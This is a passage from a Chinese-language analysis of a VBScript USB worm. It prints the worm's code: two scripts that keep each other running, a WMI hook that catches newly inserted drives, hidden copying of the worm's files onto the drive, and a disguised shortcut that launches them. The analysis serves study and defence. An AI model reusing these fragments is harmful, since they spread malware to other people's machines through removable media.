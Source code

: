 首先是installer.vbs里检测helper.vbs的运行情况，保持它是运行的，我们知道helper.vbs中也有类似的代码，它的检测对象是installer.vbs，可以确定，它们互相检测对方的运行状态，保持两个vbs文件都在执行

```vb
Set colProcess = objWinMgmt.ExecQuery ("Select * From Win32_Process where name = 'wscript.exe'")
call procheck(colProcess, "helper.vbs")
```

受感染机器中效果如下：

![image-20240225120002885](image-20240225120002885.png)

#### 感染新插入U盘

```vb
Set objEvent = colEvents.NextEvent
If objEvent.TargetInstance.DriveType = 2  Then
    If objEvent.Path_.Class = "__InstanceCreationEvent" Then
```

> __InstanceCreationEvent 系统类报告实例创建事件，这是一种内部事件，在将新实例添加到命名空间时生成。（来自MSDN）

DriveType代表Removable，这里判断是否为可移动存储设备，并且是刚刚插入（也就是__InstanceCreationEvent）

可以发现下面执行的内容都是针对接入系统的U盘

##### 复制病毒文件

接下来向U盘中复制病毒相关的文件

```vb
device = objEvent.TargetInstance.DeviceID
devicename = objEvent.TargetInstance.VolumeName
DestFolder = device & "\WindowsServices"
if (not objws.folderexists(DestFolder)) then
    objws.CreateFolder DestFolder	
    Set objDestFolder = objws.GetFolder(DestFolder)
    objDestFolder.Attributes = objDestFolder.Attributes + 39
end if

Call moveandhide ("\helper.vbs")
Call moveandhide ("\installer.vbs")
Call moveandhide ("\movemenoreg.vbs")
Call moveandhide ("\WindowsServices.exe")
```

创建U盘根目录下的快捷方式，它指向U盘里刚刚复制的movemenoreg.vbs

```vb
if (not objws.fileexists (device & devicename & ".lnk")) then
    Set link = ws.CreateShortcut(device & "\" & devicename & ".lnk")
    link.IconLocation = "%windir%\system32\SHELL32.dll, 7"
    link.TargetPath = "%COMSPEC%" 
    link.Arguments = "/C .\WindowsServices\movemenoreg.vbs"
    link.windowstyle = 7
    link.Save
End If
```
